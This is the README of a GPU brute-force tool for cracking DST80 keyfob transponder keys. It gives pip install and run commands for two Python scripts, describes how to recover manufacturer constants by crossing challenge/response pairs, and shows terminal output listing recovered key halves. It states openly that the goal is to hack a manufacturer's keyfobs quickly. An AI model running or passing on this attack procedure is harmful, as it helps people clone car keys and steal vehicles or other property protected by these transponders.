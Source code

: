 # DST80 Cracker

takes challenge/signature and max number of keys to check as arguments
need to know manufacturer constant to finish can be done by crossing the result on two challenge response that will give those constants it should takes ~1-2 days with RTX4090 then when constant known 1min
As you can see in the logs (test.log) since i bruteforce 2^40 keys with dst80_reverse_purebrute.py to produce 2^24 signatures they are many false positive to get rid of that you need the manufacturer constants to reducd bruteforce of two bytes (2^16) and test 2^24 keys for the 2^24 signatures.
By crossing the results like indicated : testing all challenges/response one time will give some keys then crossing with a new challenge/response then you will have very few false positive ~ 0 if there is no, you will know your manufacturer constants. Then change the algorithm dst80_reverse_aaaa_cte.py with the manufacturer constants to hack the keyfobs belong to that manufacturer within a very short time :)


![](algo.png)

``
pip3 install numpy opencl  
``

time python3 dst80_reverse_aaaa_cte.py 0xC212345678 0x64cfd0 281474976710656  
time python3 dst80_reverse_purebrute.py 0xC212345678 0x64cfd0 281474976710656  


```
(myenv) nirvana@legion:~/dst80-cracker$ time python3 dst80_reverse_purebrute.py 0xC212345678 0x64cfd0 281474976710656  
PID 0 first sig=0x023710, keyl=0x0000000000, keyr=0xffffffffff   
Found verified match @pid=1: keyl=0xccb6190000, keyr=0xffffe64933, sig=0x64cfd0, target=0x64cfd0  
Found verified match @pid=1: keyl=0xa9ab930000, keyr=0xffff6c5456, sig=0x64cfd0, target=0x64cfd0
```

![](bash.png)
